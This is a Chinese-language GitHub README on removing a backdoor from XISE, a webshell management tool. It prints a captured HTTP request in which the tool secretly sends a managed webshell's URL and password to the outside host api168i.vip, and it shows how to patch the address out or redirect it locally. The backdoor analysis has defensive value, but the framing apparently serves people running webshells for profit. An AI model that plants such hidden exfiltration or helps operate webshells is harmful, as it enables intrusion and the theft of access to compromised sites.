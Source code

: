 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除**

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




POST /abc1.php HTTP/1.1 
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */* 
Referer: http://api168i.vip/abc1.php 
Accept-Language: zh-cn 
Content-Type: application/x-www-form-urlencoded
Content-Length: 43 
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0) 
Host: api168i.vip 
Cache-Control: no-cache 
 
hm=http://xxxx/bak111.php||xise



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题

